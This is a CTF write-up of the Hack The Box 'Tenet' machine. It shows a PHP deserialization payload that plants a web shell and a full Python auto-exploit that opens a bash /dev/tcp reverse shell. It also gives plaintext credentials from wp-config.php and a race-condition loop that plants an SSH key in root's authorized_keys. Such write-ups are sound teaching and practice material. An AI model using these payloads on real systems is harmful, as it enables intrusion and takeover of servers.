

Tenet was a Linux Medium Box from Hack The Box. The exploration is trough php serialization. We found a php backup file on the server and see that is serializing data, then we create a exploit to explore it and get a reverse shell as www-data.

The neil's shell we got trough a php file with credentials.

The root is with a script which is running in sudo -l, we explore a race condition to add the root's ssh key on the authorized_keys.

The script to auto exploit it is on the post.

Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.223
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We open it on the browser and see what is being shown.

When tryied to access 10.10.10.223 on the browser.


We do a gobuster in it

```sh
gobuster dir -u http://10.10.10.223 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 30
```


We found just `wordpress` folder, but it leds to nothings

### Vhost Fuzzing

So, let's do a VHOST Fuzzing on this webapp

First, add the tenet.htb on `/etc/hosts`. I did that because it's normal on htb web apps this kind of stuff.


Now, with `wfuzz` we perfrom the attack

```sh
wfuzz -c -H "Host: FUZZ.tenet.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.10.223 --hh 10918
```


**www** is valid! We add it to `/etc/hosts`


### www.tenet.htb

Opening it on the browser we get a web page


We tried to gobuster, wpscan and wfuzz and nothins useful.

Started looking at the pages, and found one interesting

`http://tenet.htb/index.php/2020/12/16/logs/`

On Migration tab


Seems that we have a `sator.php` file.

So, let's hunt for it.

And we found it

`http://10.10.10.223/sator.php.bak`


Open it


I have no idea what this script possible do, but what caught my eyes was the line 24.

```php
$databaseupdate = unserialize($input);
```

The use of `unserialize` function.

# PHP Serialization - www-data shell

Once we got a point which seems to be serializing data, let's search to understand how it works.

[IppSec](https://www.youtube.com/watch?v=HaW15aMzBUM) has this awesome video which explains in details how serialization in php works.

Serialization is the act of taking an object from memory in some language and converting it to a format that can be saved as a file. Deserialization is the reverse, taking that string or binary and converting it back into an object within the context of a running program.

## Exploitation Overview

After had watched the video above and understand a little how it works. Let's start crafting our payload to send to the tenet server.

We see that it's receiving the data trough GET param

```php
$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);
```

We get a great [Post](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) which explains how we must build our payload.

On the sator.php we have a class called **DatabaseExport** which implements a **__destruct** function. This is the function where we'll get RCE. This function is using a **file_put_contents** to write the variable to the users.txt, with we go to `10.10.10.223/users.txt` we see that it exists.


1 - Let's create a php file on our box with a DatabaseExport function, which defines a user_file to be an malicious php file.

2 - We serialize it to send to our tenet box.

3 - We send it to the server as GET param.

4 - The **__destruct** function will write it to the server with the name we choosen. And then we can execute it and get a reverse shell on the box.

exploit.php

```php
<?php
class DatabaseExport {
  public $user_file = '0x4rt3mis.php';
  public $data = '<?php system($_REQUEST["cmd"]); ?>';
  }
print serialize(new DatabaseExport);
?>
```


So `O:14:"DatabaseExport":2:{s:9:"user_file";s:13:"0x4rt3mis.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}` this is what we need to send to the server to write the file in it. It'll unserialize it and we are golden!

We'll send over the burp to see how it's being passed better

```sh
curl -G http://10.10.10.223/sator.php --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:13:"0x4rt3mis.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}' --proxy 127.0.0.1:8080
```

We send it


On burp


Seems ok. Now let's see if it was written on the server by the **__destruct** function


Yes, we got it. And now, the reverse shell


Now, let's start building our python script to automate it


php_serialize.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto PHP Serialization Exploit Reverse Shell - Tenet HackTheBox
# Date: 15/09/21

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler up
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Sending the malicious function to the server
'''
Script in php which generated the malicious serialized object

<?php
class DatabaseExport {
  public $user_file = '0x4rt3mis.php';
  public $data = '<?php system($_REQUEST["cmd"]); ?>';
  }
print serialize(new DatabaseExport);
?>

Which generated - O:14:"DatabaseExport":2:{s:9:"user_file";s:13:"0x4rt3mis.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
'''
def sendMalicious(rhost):
    print("[+] Let's send the malicious serialized object !!!! [+]")
    url = "http://" + rhost + ":80/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A13%3A%220x4rt3mis.php%22%3Bs%3A4%3A%22data%22%3Bs%3A34%3A%22%3C%3Fphp%20system%28%24_REQUEST%5B%22cmd%22%5D%29%3B%20%3F%3E%22%3B%7D"
    r.get(url, proxies=proxies)
    print("[+] Object written to %s/0x4rt3mis.php !!!! [+]" %rhost)

# Now, let's get the reverse shell easily
def getReverse(rhost, lhost, lport):
    print("[+] Let's get the reverse shell !!!! [+]")
    url = "http://%s:80/0x4rt3mis.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"cmd": "/bin/bash -c 'bash -i > /dev/tcp/%s/%s 0>&1'" %(lhost,lport)}
    r.post(url, headers=headers, data=data, proxies=proxies)


def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.ipaddress
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Send the malicious
    sendMalicious(rhost)
    # Get the reverse shell
    getReverse(rhost, lhost, lport)

if __name__ == '__main__':
    main()
```

Great. Let's continue.

# www-data -> Neil

The first user we get is the neil.

On the wordpress folder we found a `wp-config.php` file, which has credentials.


**neil:Opera2112**

We su in this user


Now, let's become root.

# Neil --> Root

We run `sudo -l` and see that neil can run the script `/usr/local/bin/enableSSH.sh` as root


## enableSSH Analysis

So, let's see what we can explore on this script

We open it after download in our Kali box


The script adds a hardcoded public RSA key to the root authorized_keys file. There are three functions in the script, **addKey** , **checkFile** and **checkAdded**.

1 - The script will create a ssh-file in temp directory.

2 - checkFile will check the existance of the file.

3 - checkFile will add the hardcoded ssh public key to root's authorized_key file. 

Lets create a script for checking the existance of ssh file using loop and add our public key to the file

We can abuse this script by executing an attack on the temp file. Looking at the file and then change it's contents to our SSH public key, so that local root key is written into /root/.ssh/authorized_keys.

I want a loop that will run constantly, looking for files starting with ssh- in /tmp, and replacing their contents with my public key.

```
while true; do for xx in /tmp/ssh-*; do echo "ssh-rsa AAAAB3NzaC1y..." > $xx; done; done
```


We execute it, and the error message shows that we got it. Because it's a race condition.


And we can login ssh with root


We finished it. The code analysis we already did to get the PHP Serialize working.